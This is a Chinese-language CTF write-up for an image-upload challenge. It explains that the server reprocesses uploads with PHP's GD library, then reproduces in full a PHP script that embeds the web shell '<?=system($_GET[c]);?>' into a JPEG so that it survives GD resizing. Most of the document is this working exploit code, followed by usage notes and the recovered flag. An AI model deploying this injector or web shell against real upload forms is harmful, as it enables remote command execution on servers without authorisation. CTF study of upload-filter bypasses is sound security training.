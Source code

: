 ## upload-IMG

### 查找信息

- 上传一张图片，提示图片源码没有phpinfo()

  - ![1555309818125](1555309818125.png)

- 查看返回图片源码，gd库处理过
  - ![1555309954636](1555309954636.png)

----

### 获取flag

- 附上大佬源码，绕过gd库检测

  - ```php
    <?php
    	/*
    
    	The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    	It is necessary that the size and quality of the initial image are the same as those of the processed image.
    
    	1) Upload an arbitrary image via secured files upload script
    	2) Save the processed image and launch:
    	jpg_payload.php <jpg_name.jpg>
    
    	In case of successful injection you will get a specially crafted image, which should be uploaded again.
    
    	Since the most straightforward injection method is used, the following problems can occur:
    	1) After the second processing the injected data may become partially corrupted.
    	2) The jpg_payload.php script outputs "Something's wrong".
    	If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
    
    	Sergey Bobrov @Black2Fan.
    
    	See also:
    	https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
    
    	*/
    
    	$miniPayload = '<?=system($_GET[c]);?>';
    
    	if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        	die('php-gd is not installed');
    	}
    	
    	if(!isset($argv[1])) {
    		die('php jpg_payload.php <jpg_name.jpg>');
    	}
    
    	set_error_handler("custom_error_handler");
    
    	for($pad = 0; $pad < 1024; $pad++) {
    		$nullbytePayloadSize = $pad;
    		$dis = new DataInputStream($argv[1]);
    		$outStream = file_get_contents($argv[1]);
    		$extraBytes = 0;
    		$correctImage = TRUE;
    
    		if($dis->readShort() != 0xFFD8) {
    			die('Incorrect SOI marker');
    		}
    
    		while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
    			$marker = $dis->readByte();
    			$size = $dis->readShort() - 2;
    			$dis->skip($size);
    			if($marker === 0xDA) {
    				$startPos = $dis->seek();
    				$outStreamTmp = 
    					substr($outStream, 0, $startPos) . 
    					$miniPayload . 
    					str_repeat("\0",$nullbytePayloadSize) . 
    					substr($outStream, $startPos);
    				checkImage('_'.$argv[1], $outStreamTmp, TRUE);
    				if($extraBytes !== 0) {
    					while((!$dis->eof())) {
    						if($dis->readByte() === 0xFF) {
    							if($dis->readByte !== 0x00) {
    								break;
    							}
    						}
    					}
    					$stopPos = $dis->seek() - 2;
    					$imageStreamSize = $stopPos - $startPos;
    					$outStream = 
    						substr($outStream, 0, $startPos) . 
    						$miniPayload . 
    						substr(
    							str_repeat("\0",$nullbytePayloadSize).
    								substr($outStream, $startPos, $imageStreamSize),
    							0,
    							$nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
    								substr($outStream, $stopPos);
    				} elseif($correctImage) {
    					$outStream = $outStreamTmp;
    				} else {
    					break;
    				}
    				if(checkImage('payload_'.$argv[1], $outStream)) {
    					die('Success!');
    				} else {
    					break;
    				}
    			}
    		}
    	}
    	unlink('payload_'.$argv[1]);
    	die('Something\'s wrong');
    
    	function checkImage($filename, $data, $unlink = FALSE) {
    		global $correctImage;
    		file_put_contents($filename, $data);
    		$correctImage = TRUE;
    		imagecreatefromjpeg($filename);
    		if($unlink)
    			unlink($filename);
    		return $correctImage;
    	}
    
    	function custom_error_handler($errno, $errstr, $errfile, $errline) {
    		global $extraBytes, $correctImage;
    		$correctImage = FALSE;
    		if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
    			if(isset($m[1])) {
    				$extraBytes = (int)$m[1];
    			}
    		}
    	}
    
    	class DataInputStream {
    		private $binData;
    		private $order;
    		private $size;
    
    		public function __construct($filename, $order = false, $fromString = false) {
    			$this->binData = '';
    			$this->order = $order;
    			if(!$fromString) {
    				if(!file_exists($filename) || !is_file($filename))
    					die('File not exists ['.$filename.']');
    				$this->binData = file_get_contents($filename);
    			} else {
    				$this->binData = $filename;
    			}
    			$this->size = strlen($this->binData);
    		}
    
    		public function seek() {
    			return ($this->size - strlen($this->binData));
    		}
    
    		public function skip($skip) {
    			$this->binData = substr($this->binData, $skip);
    		}
    
    		public function readByte() {
    			if($this->eof()) {
    				die('End Of File');
    			}
    			$byte = substr($this->binData, 0, 1);
    			$this->binData = substr($this->binData, 1);
    			return ord($byte);
    		}
    
    		public function readShort() {
    			if(strlen($this->binData) < 2) {
    				die('End Of File');
    			}
    			$short = substr($this->binData, 0, 2);
    			$this->binData = substr($this->binData, 2);
    			if($this->order) {
    				$short = (ord($short[1]) << 8) + ord($short[0]);
    			} else {
    				$short = (ord($short[0]) << 8) + ord($short[1]);
    			}
    			return $short;
    		}
    
    		public function eof() {
    			return !$this->binData||(strlen($this->binData) === 0);
    		}
    	}
    ?>
    ```

  - ![1555310088930](1555310088930.png)

  - payload的phpinfo()要足够多，少照样过滤掉

  - 用法：php   jpg_payload   （图片）

  - 在pc上用就直接给$argv[1]赋值图片路径就可以

- 上传返回flag

  - 

  ![Snipaste_2019-04-14_12-11-23](Snipaste_2019-04-14_12-11-23.png)